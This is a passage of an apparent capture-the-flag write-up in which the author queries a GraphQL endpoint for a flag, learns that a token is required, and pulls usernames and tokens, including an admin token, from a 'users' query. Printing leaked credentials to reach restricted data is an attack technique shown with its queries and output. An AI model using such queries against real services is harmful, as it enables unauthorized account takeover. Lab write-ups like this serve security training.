 ```json
    }
}
```

Surely it's not that easy...

```graphql
{
    flag
}
```
```json
{
    "errors": [
        {
            "message": "Field \"flag\" argument \"token\" of type \"String!\" is required, but it was not provided.",
            "locations": [
                {
                    "line": 1,
                    "column": 2
                }
            ]
        }
    ]
}
```

Ok, we need a token. Let's try the `users` query from earlier.

```graphql
{
    users {
        username
        token
    }
}
```
```json
{
    "data": {
        "users": [
            {
                "username": "admin",
                "token": "3cd3a50e63b3cb0a69cfb7d9d4f0ebc1dc1b94143475535930fa3db6e687280b"
            },{
                "username": "b82d9af8a6226c072bcd811e7a009ffb36b2ad88be67ac396d170fe8e2f1de7c",
                "token": "5568f87dc1ca15c578e6b825ffca7f685ac433c1826b075b499f68ea309e79a6"
            }
            ... more users
        ]
    }
}
```
